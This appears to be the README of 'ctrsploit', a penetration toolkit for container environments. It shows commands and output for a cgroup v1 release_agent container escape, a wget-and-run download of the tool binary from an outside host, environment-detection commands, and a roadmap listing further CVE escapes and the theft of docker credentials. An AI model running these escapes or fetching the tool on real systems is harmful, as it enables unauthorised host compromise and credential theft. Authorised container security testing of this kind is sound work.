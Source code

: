 # ctrsploit

## usage
### help
```
wget -O ctrsploit  && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit
```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.
```
root@host # docker run -ti --rm --security-opt="seccomp=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://nebula-pentest-tools.obs.cn-south-1.myhuaweicloud.com/ctrsploit/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

if we do not know the rootfs of container, ctrsploit can still escape by release agent tech
```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### gather information
usage
```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where
```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

cgroup version
```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

## pre-built release

## 功能
- [ ] 环境探测
    - [ ] 当前是否处于容器环境内
      - [ ] 当前集群环境
        - [ ] swarm
        - [x] k8s
          - [x] `ls -lah /var/run/secrets/kubernetes.io`
          - [x] `cat /proc/self/mountinfo | grep hosts |grep pods`
          - [x] `cat /proc/self/cgroup |grep kubepods`
          - [x] `cat /etc/hostname`
      - [ ] 当前cri
        - [x] docker
          - [x] `ls -lah /.dockerenv`
          - [x] `head -n 1 /proc/self/mountinfo | grep docker`
          - [x] `cat /proc/self/cgroup |grep docker`
          - [x] `cat /proc/self/mountinfo | grep "hosts|hostname" |grep docker`
          - [x] `cat /etc/hostname` // not convinced
        - [ ] containerd
        - [ ] ...
    - [ ] 当前容器版本探测
      - [ ] cluster api: curl -k https://10.0.0.233:5443/apis/version.cce.io/v1beta1 --header "Authorization: Bearer $token"
    - [ ] 当前容器完整ID
    - [ ] 安全机制开启情况
        - [ ] 当前容器capability
        - [ ] 是否开启seccomp
        - [ ] 是否开启LSM
        - [ ] cgroup
            - [ ] cgroup version
                - [x] v1
                - [x] v2
    - [ ] block dev name
        - [ ] /sys/block/nvme0n1
    - [ ] 容器rootfs在宿主机的绝对路径
        - [ ] docker
        - [ ] k8s variant 1
        - [ ] k8s variant 2
    - [ ] openstack api accessibility
    - [ ] graphdriver
        - [x] overlay
        - [x] devicemapper
        - [ ] aufs
- [ ] execute
    - [ ] outside of container
        - [ ] get docker credentials
            - [ ] $HOME/.docker/config.json
- [ ] exploit
    - [ ] CVE-2019-16884
    - [ ] CVE-2019-14271
    - [ ] CVE-2021-21285  
    - [ ] 挂载目录->软链接->再次挂载 逃逸
    - [x] cgroupv1 notify_on_release escape
        - [x] unknown rootfs support 
    - [x] cgroupv1 notify_on_release escape with unknown rootfs
- [ ] auto exploit